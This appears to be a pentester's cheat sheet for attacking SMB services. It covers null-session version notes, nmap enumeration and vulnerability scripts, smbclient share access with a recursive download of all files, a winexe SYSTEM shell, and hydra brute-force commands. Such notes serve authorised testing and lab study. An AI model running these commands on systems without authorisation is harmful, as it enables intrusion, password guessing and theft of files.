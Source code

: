 # SMB (TCP 139/445)



### Vulnerable versions

1. Windows NT, 2000, and XP (most SMB1) - VULNERABLE: Null Sessions can be created by default
2. Windows 2003, and XP SP2 onwards - NOT VULNERABLE: Null Sessions can't be created default
3. Most Samba (Unix) servers

List of SMB versions and corresponding Windows versions:

1. SMB1 – Windows 2000, XP and Windows 2003.
2. SMB2 – Windows Vista SP1 and Windows 2008
3. SMB2.1 – Windows 7 and Windows 2008 R2
4. SMB3 – Windows 8 and Windows 2012.





Check Hostname

```
$ nmblookup -A $ip
```



Get Shares

```
smbmap -H %ip

nmap --script smb-enum-shares.nse --script-args=unsafe=1 -p445 $IP

echo exit | smbclient -L \\\\$ip
```



General Scanning

```bash
 //QUICK SCAN
 nmap --script="smb-enum*" --script-args=unsafe=1 -T5 $IP
 
 //ENUM Users
 nmap --script smb-enum-users.nse --script-args=unsafe=1 -p445 $IP
 
 /FULL SCAN
 nmap --script=smb2-capabilities,smb-print-text,smb2-security-mode.nse,smb-protocols,smb2-time.nse,smb-psexec,smb2-vuln-uptime,smb-security-mode,smb-server-stats,smb-double-pulsar-backdoor,smb-system-info,smb-vuln-conficker,smb-enum-groups,smb-vuln-cve2009-3103,smb-enum-processes,smb-vuln-cve-2017-7494,smb-vuln-ms06-025,smb-enum-shares,smb-vuln-ms07-029,smb-enum-users,smb-vuln-ms08-067,smb-vuln-ms10-054,smb-ls,smb-vuln-ms10-061,smb-vuln-ms17-010,smb-os-discovery --script-args=unsafe=1 -T5 $ip
```



Check for Nmap vulns

```
nmap -n -v --script="smb-vuln*" -oN nmap/smbAllVulns  -p 139,445 $IP

nmap -n -v --script smb-os-discovery.nse --script-args=unsafe=1 -oN nmap/smbOS -p 139,445 $IP

nmap -n -v --script smb-check-vulns --script-args=unsafe=1 -oN nmap/smbCehckVulns -p 139,445 $IP

nmap -p 139,445 --script "smb-vuln-* and not(smb-vuln-regsvc-dos)" --script-args smb-vuln-cve-2017-7494.check-version,unsafe=1 <IP>

nmap -p 445 $ip --script=smb-vuln-ms17-010
```





Connect with client

```
smbclient -L $IP

smbclient //$IP/tmp

smbclient \\\\$IP\\ipc$ -U john

smbclient //$IP/ipc$ -U john

smbclient //$IP/admin$ -U john

winexe -U username //$IP "cmd.exe" --system
```



Download all files

```
 smbclient \\\\$IP\\share
 mask ""
 recurse ON
 prompt OFF
 mget *
```





Brute Force Attack

<pre><code>nmap --script smb-brute -p 445 &#x3C;IP>

//Defaults
hydra -L /usr/share/seclists/Usernames/top-usernames-shortlist.txt -P /usr/share/seclists/Passwords/Common-Credentials/best15.txt 10.130.40.70 smb -t 1
<strong>
</strong><strong>hydra -l administrator -P /usr/share/wordlists/rockyou.txt -t 1 $ip smb
</strong></code></pre>
